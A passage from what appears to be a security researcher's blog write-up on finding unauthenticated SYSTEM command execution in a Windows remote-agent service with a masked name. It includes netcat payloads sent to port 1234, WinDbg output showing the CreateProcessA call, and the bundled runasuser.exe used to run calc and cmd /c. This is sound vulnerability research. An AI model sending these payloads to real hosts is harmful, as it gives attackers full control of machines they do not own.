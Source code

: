And send the usual command:
<pre><font color='#00FF00'>ron@armitage</font> <font color='#8080FF'>~ $</font> echo -ne "12345\0myuser\0mypass\0mycommand\0" | nc -vv 192.168.1.112 1234
192.168.1.112: inverse host lookup failed: 
(UNKNOWN) [192.168.1.112] 1234 (?) open</pre>

When it breaks, I dump the memory at ecx - the register that stores the command:
<pre>Breakpoint 0 hit
eax=00000000 ebx=001576a8 ecx=00a2db48 edx=00a29cc0 esi=00000029 edi=00000000
eip=0040b95e esp=00a2978c ebp=00a2df60 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
xxxxxxxx+0xb95e:
0040b95e ff15cc004300    call    dword ptr [xxxxxxxx+0x300cc (004300cc)] ds:0023:004300cc={kernel32!CreateProcessA (77e424b9)}
0:001> db ecx
00a2db48  43 3a 5c 50 52 4f 47 52-41 7e 31 5c xx xx xx xx  C:\PROGRA~1\XXXX
00a2db58  xx xx 7e 31 5c xx xx xx-xx 5c 41 67 65 6e 74 5c  XX~1\XXXX\Agent\
00a2db68  6d 79 63 6f 6d 6d 61 6e-64 20 00 00 00 00 00 00  mycommand ......</pre>

Aha! It's prepending the path to the program's folder to our command and passing it to CreateProcessA! The natural thing to do is to use '../' to escape this folder and run something else, but that doesn't work. I never actually figured out why - and it seemed to kinda work - but it was doing some sort of filtering that would give me bad results. Eventually, I had an idea - which programs are stored in that folder anyways?
<img src='http://skullsecurity.org/blogdata/31-remoteexec-programs.png'>

execute.exe? hide.exe? runasuser.exe? Could it BE that simple?

I fire up netcat again:
<pre><font color='#00FF00'>ron@armitage</font> <font color='#8080FF'>~ $</font> echo -ne "12345\0myuser\0mypass\0runasuser calc\0" | nc -vv 192.168.1.112 1234
192.168.1.112: inverse host lookup failed: 
(UNKNOWN) [192.168.1.112] 1234 (?) open
 sent 35, rcvd 1
</pre>

And check the process list:
<img src='http://skullsecurity.org/blogdata/33-remoteexec-calc-running.png'>

And ho-ly crap! We have command execution! Unauthenticated! As SYSTEM!! Game over, I win! 

<h2>Writing the check</h2>
But wait, there's no output on netcat. No indication at all that this worked, in fact. Crap! Wut do?

It occurred to me that this particular application also has a Web server built in. Can I write to files using this command execution? I try:
<pre><font color='#00FF00'>ron@armitage</font> <font color='#8080FF'>~ $</font> echo -ne "12345\0myuser\0mypass\0runasuser cmd /c \"ipconfig > c:\\myfile\"\0" | nc -vv 192.168.1.112 1234
192.168.1.112: inverse host lookup failed: 
(UNKNOWN) [192.168.1.112] 1234 (?) open
 sent 60, rcvd 1
</pre>
